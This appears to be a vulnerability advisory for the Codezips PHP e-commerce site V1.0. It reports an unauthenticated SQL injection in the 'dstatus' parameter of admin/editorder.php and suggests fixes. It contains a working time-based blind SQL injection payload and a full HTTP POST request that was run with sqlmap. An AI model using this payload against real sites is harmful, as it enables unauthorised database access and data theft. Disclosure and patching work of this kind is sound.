


# Codezips E-commerce Site Using PHP With Source Code V1.0 admin/editorder.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- E-commerce Site Using PHP With Source Code

## Vendor Homepage

- https://codezips.com/php/e-commerce-site-using-php-with-source-code/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- `zhangjiale`

## Vendor

- `codezips`

## Vulnerable File

- `/admin/editorder.php`

## VERSION(S)

- V1.0

## Software Link

- https://codeload.github.com/codezips/ecommerce-site-using-php/zip/master

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the '/admin/editorder.php' file of  the 'E-commerce Site Using PHP With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter  'dstatus' and use it directly in SQL queries without the need for  appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized  operations.

  

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve  unauthorized database access, sensitive data leakage, data tampering,  comprehensive system control, and even service interruption, posing a  serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "E-commerce Site Using PHP With Source Code", zhangjiale  discovered a critical SQL injection vulnerability in the "/admin/editorder.php" file. This vulnerability stems from insufficient  user input validation of the 'dstatus' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain  unauthorized access to databases, modify or delete data, and access  sensitive information. Immediate remedial measures are needed to ensure  system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability lonameion:

- 'dstatus' parameter

## Payload:

```
order=11&dstatus=111' AND IF((SELECT DATABASE() = 'ebuybd'), SLEEP(3), '0') WHERE id=1  --+dwada
```

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
POST /admin/editorder.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: PHPSESSID=nofl9ic3c43bacnqakrd6eofv2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 96

order=11&dstatus=111' AND IF((SELECT DATABASE() = 'ebuybd'), SLEEP(3), '0') WHERE id=1  --+dwada
```



## Suggested fixes

1. **Use prepared statements and parameter binding:**
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered  by the user is treated as pure data and will not be interpreted as SQL  code.
2. **Input validation and filtering:**
   Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Regular security audits:**
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.